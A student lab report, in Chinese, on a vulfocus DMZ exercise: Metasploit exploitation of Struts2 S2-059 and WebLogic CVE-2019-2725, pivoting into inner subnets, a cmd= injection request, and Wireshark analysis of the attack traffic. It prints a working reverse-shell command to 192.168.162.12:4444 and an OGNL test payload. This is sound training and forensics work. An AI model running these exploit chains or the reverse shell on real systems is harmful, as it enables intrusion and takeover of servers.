# DMZ攻防场景实战实验报告

***202212063060 梁懿婷***

## 实验环境
- **虚拟机软件**:VirtualBox
- **操作系统**:
  - **虚拟机**: Kali Linux 2024.2

---

## 实验步骤

### 1. 使用vulfocus搭建DMZ场景


#### （1）前期准备

修改docker配置文件
```shell
sudo nano /etc/docker/daemon.json
```
添加如下配置
```
"default-ulimits": {
         "nofile": {
                 "Name": "nofile",
                 "Hard": 64000,
                 "Soft": 64000
         }
    }
```
重启docker
```
sudo systemctl restart docker
```
再启动vulfocus
```shell
bash start.sh
docker exec -it vulfocus-vul-focus-1 redis-server &
#vulfocus-vul-focus-1替换为自己vulfocus容器的容器名
```

在vulfocus下载所需容器
`struts2-cve_2020_17530`
`weblogic-cve_2019_2725`
再通过docker pull拉取老师提供的nginx容器
```
c4pr1c3/vulshare_nginx-php-flag
```
通过`vulfocus`的web界面进行导入


在vulfocus网卡管理中创建两块内网网卡
（只要基础逻辑不错误就可以）


在`vulfocus>场景管理>环境编排管理` 创建编排场景
建立如下网络拓扑结构

*ps：struts2端口需要设置为开放状态*
右上角进行保存后再环境编排管理处将此场景发布

发布成功后就可以在场景处找到刚刚搭建好的场景 并点击启动
启动成功后我们可以获得访问地址

**但是**这不是真正的访问地址
真正的访问地址是是<`靶机ip+后面的端口号`>

启动成功后可以在靶机看到启动的容器们


捕获指定容器的上下行流量 为后续的攻击过程「分析取证」保存流量数据
```shell
container_name="struts2的容器id"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```

然后就可以不管靶机了，在后台挂着就好


### 2. 实战开始-获取靶机flag

##### 已知信息
**靶机ip**：192.168.162.9
**靶机入口端口**：43091
**攻击者主机ip**：192.168.162.12

以上信息很重要！！


#### 2.1 DMZ 入口靶标get flag
- ***叠甲***：书写报告时是重新做了一次新的攻击实验，省略了很多查找各种的过程

（1）准备工作
```shell
# metasploit 基础配置
# 更新 metasploit
sudo apt install -y metasploit-framework

# 初始化 metasploit 本地工作数据库
sudo msfdb init

# 启动 msfconsole
msfconsole

# 确认已连接 pgsql
db_status

# 建立工作区
workspace -a demo
```

(2) 攻击准备
```shell
use /multi/http/struts2_multi_eval_ognl

# 查看 exp 可配置参数列表
show options

# 更改配置

set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.162.9  #靶机IP
set RPORT  43091   #靶机目标端口  
set LHOST  192.168.162.12   #攻击者主机IP 

```


```shell
exploit -j  
#进行漏洞攻击 -j使攻击操作在后台运行
```
我这里不小心打成`exploit -y`了导致直接打开了攻击成功的session
理论上是应该
```shell
sessions -l #查看已有session
sessions -i 1(session ID) #打开session
```
打开session后使用
`ls /tmp`查看入口flag

回到vulfocus页面输入flag进行验证
`flag-{bmhb544a366-b748-4881-9d5d-c1c1d7362859}`

**高亮提醒**：记得通过 CTRL-Z 将当前会话放到后台继续执行


#### 2.2 DMZ 内网第一层靶标 get flag

- **（1）建立立足点并发现靶标2-4**
```shell
# 升级session
sessions -u 1
# 查看并进入升级后的session 并通过查看网卡列表发现里面还有一个网卡
sessions -i 2
ipconfig
# 查看路由表
ipconfig
# 查看 ARP 表
arp
# 创建路由
run autoroute -s 192.168.40.0/24
# 检查 Pivot 路由是否已创建成功
run autoroute -p
```


- **（2）攻击准备**
```sh
# 先进行扫描
use auxiliary/scanner/portscan/tcp
# 扫描整个子网
set RHOSTS 192.168.40.0/24
# 根据「经验」
set ports 7001
# 根据「经验」
set threads 10
# 开始扫描 等到complete 100%
run -j
# 可以先看到已经发现了三个容器
```


```sh
# 查看主机存活情况
hosts
# 查看发现的服务列表
services
```


- 三个容器ip地址：

  - 192.168.40.1  
  - 192.168.40.3 
  - 192.168.40.5

**（2）攻击开始**
```sh
# search exploit
search cve-2019-2725
# getshell
use 0
show options
# 分别设置不同的靶机 IP 
set RHOSTS 192.168.40.1  
# 设置攻击者主机 IP
set lhost 192.168.162.12
# 分别 运行
exploit -j
# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```


*ps:不知道为什么session 5 有两个flag但是有一个是错误的*


#### 2.3 DMZ 内网第二层靶标 get flag
**（1）准备工作**
同第一层一样>升级session>ipconfig>找到更深层次内网ip
**不同点**：此处有三个容器只有一个容器是双网卡，需要自己手动排查



`查到 IP：192.169.40.5`

**(2)get flag5**
- 此处采用的是穷举法

进入session 6>shell
```sh
wget http://192.169.40.X(X自己猜) -O /tmp/result && cat /tmp/result
# 192.169.40.5是本机可以排除 我这边第一次就试出来了 
```
正确ip得到的指令 （IP:192.169.40.1）



```sh
# 得到正确指令
wget "http://192.169.40.1/index.php?cmd=ls /tmp"  -O /tmp/result && cat /tmp/result
```
得到最后一个flag



场景完成截图打卡




### 3. 漏洞利用检测

攻击结束后靶机停止抓包



```sh
#拷贝到本地使用wireshark进行分析
scp -r kali@靶机ip:文件路径 本地路径
```

#### 3.1 入口漏洞利用检测
- 查找攻击流量：
   - 查找目标 IP 地址（入口靶标 IP）的 HTTP 请求。
   - 重点关注 POST 请求，因为 Struts2 漏洞通常通过 POST 请求触发。



- 追踪TCP流



##### （1）**HTTP 请求分析**
- **请求方法**: POST
- **目标地址**: `http://192.168.162.9:43091/`
- **Payload**:
  ```
  id=%25%7b4701%2a1330%7d
  ```
  - 解码后的 Payload：
    ```
    id=%{4701*1330}
    ```
  - 这是一个典型的 **OGNL 表达式**，用于测试 Struts2 的表达式注入漏洞。

- **攻击特征**：
  - `%{...}` 是 Struts2 的 OGNL 表达式语法。
  - `4701*1330` 是一个简单的表达式，用于验证目标系统是否执行了 OGNL 表达式。


##### （2）**HTTP 响应分析**
- **响应状态**: 200 OK
- **响应内容**:
  ```html
  <html>
  <head>
      <title>S2-059 demo</title>
  </head>
  <body>
  <a id="6252330" href="/.action;jsessionid=node01wvj9rn6qhaus9qm70ar2luu32.node0">your input id: %{4701*1330}
      <br>has ben evaluated again in id attribute</a>
  </body>
  </html>
  ```
  - 响应中明确显示了输入的 OGNL 表达式 `%{4701*1330}` 被解析并执行。
  - 表达式 `4701*1330` 的计算结果为 `6252330`，并在响应中显示为 `id="6252330"`。


##### （3）**漏洞类型**
- **漏洞名称**: Apache Struts2 远程代码执行漏洞（CVE-2020-17530，S2-059）。
- **漏洞描述**：
  - Struts2 框架在处理某些标签属性时，未正确验证用户输入，导致攻击者可以通过构造恶意的 OGNL 表达式执行任意代码。
  - 该漏洞属于 **表达式注入漏洞**。


##### （4）**攻击行为确认**
- **攻击者行为**：
  - 攻击者通过发送包含 OGNL 表达式的 HTTP POST 请求，测试目标系统是否存在 Struts2 漏洞。
  - 表达式 `%{4701*1330}` 被成功执行，表明目标系统存在漏洞。

##### （5）入口漏洞利用检测结论

- **漏洞类型**: Apache Struts2 远程代码执行漏洞（CVE-2020-17530，S2-059）。
- **攻击者行为**：
  - 发送包含 OGNL 表达式的 HTTP POST 请求，测试并确认漏洞存在。
- **攻击 Payload**:
  ```
  id=%25%7b4701%2a1330%7d
  ```
- **攻击结果**：
  - 目标系统解析并执行了 OGNL 表达式，返回了计算结果 `6252330`。

---
#### 3.2 内网第一层漏洞利用检测

> **CVE-2019-2725 漏洞背景**
漏洞名称: Oracle WebLogic Server 反序列化远程代码执行漏洞（CVE-2019-2725）。
影响版本: WebLogic 10.3.6.0、12.1.3.0、12.2.1.3。
漏洞描述:
WebLogic 的 wls9-async 组件存在反序列化漏洞，攻击者可以通过发送特制的 HTTP 请求，在目标服务器上执行任意代码。
利用方式:
攻击者通常通过发送恶意的 XML 数据包触发漏洞。

查找可疑包，过滤条件
`ip.dst == 内网第一层ip && tcp.port == 7001`



三个可疑包的ip地址刚好是三个容器的ip地址

因为是同一种漏洞攻击所以随便选其中一个包追踪tcp流进行分析、



##### （1）**HTTP 请求分析**
- **请求方法**: POST
- **目标路径**: `/_async/AsyncResponseService`
  - 这是 WebLogic 的异步响应服务接口，是 CVE-2019-2725 漏洞的常见利用点。
- **请求头**:
  - `Content-Type: text/xml`: 表明请求体是 XML 格式的 SOAP 消息。
- **请求体**:图中已标出
 
  - **漏洞利用特征**:
    - `<work:WorkContext>` 标签中包含恶意的 Java 反序列化 Payload。
    - 使用 `java.lang.ProcessBuilder` 执行系统命令。
    - 命令内容为：
      ```bash
      bash -c '0<&60-;exec 60<>/dev/tcp/192.168.162.12/4444;sh <&60 >&60 2>&60'
      ```
      这是一个典型的反向 Shell 命令，尝试连接到攻击者的 IP `192.168.162.12` 的端口 `4444`。


##### （2）**HTTP 响应分析**
- **响应状态**: 202 Accepted
  - 状态码 202 表示请求已被接受，但尚未处理完成。
- **响应头**:
  - `X-Powered-By: Servlet/2.5 JSP/2.1`: 表明服务器运行的是 WebLogic。
- **响应体**: 空
  - 由于漏洞利用成功，服务器可能未返回具体内容。


##### （3）**漏洞利用行为确认**
- **漏洞类型**: Oracle WebLogic Server 反序列化远程代码执行漏洞（CVE-2019-2725）。
- **攻击者行为**:
  - 通过发送恶意的 SOAP 请求，利用 WebLogic 的反序列化漏洞执行系统命令。
  - 尝试建立反向 Shell，连接到攻击者的 IP `192.168.162.12` 的端口 `4444`。
- **攻击结果**:
  - 如果目标服务器存在漏洞，攻击者将成功获取反向 Shell，并完全控制服务器。

##### （4）**检测结果记录**
- **漏洞类型**: Oracle WebLogic Server 反序列化远程代码执行漏洞（CVE-2019-2725）。
- **攻击者 IP**: `192.168.162.12`（反向 Shell 的目标 IP）。
- **攻击时间**: 2025 年 3 月 22 日 08:30:12 GMT。
- **攻击方法**:
  - 通过发送恶意的 SOAP 请求，利用 WebLogic 的反序列化漏洞执行反向 Shell 命令。


##### （6）**总结**
通过分析提供的 TCP 流内容，可以确认攻击者成功利用了 **CVE-2019-2725** 漏洞。

--- 


#### 3.3 内网第二层漏洞利用检测
- **步骤描述**: 
  1. 对内网第二层靶标进行漏洞扫描。
  2. 分析扫描结果，确认可利用的漏洞。
  3. 记录漏洞类型和利用方法。

### 4. 遇到的问题和解决方法
#### 4.1 问题一
- **问题描述**: 在渗透内网第一层靶标时，发现靶标防火墙规则限制了外部访问。
- **解决方法**: 通过入口靶标的权限，使用端口转发工具（如SSH隧道）绕过防火墙限制。

#### 4.2 问题二
- **问题描述**: 在内网第二层靶标漏洞利用时，发现漏洞利用脚本无法成功执行。
- **解决方法**: 分析漏洞利用脚本，调整参数或使用其他漏洞利用工具（如Metasploit）重新尝试。

---
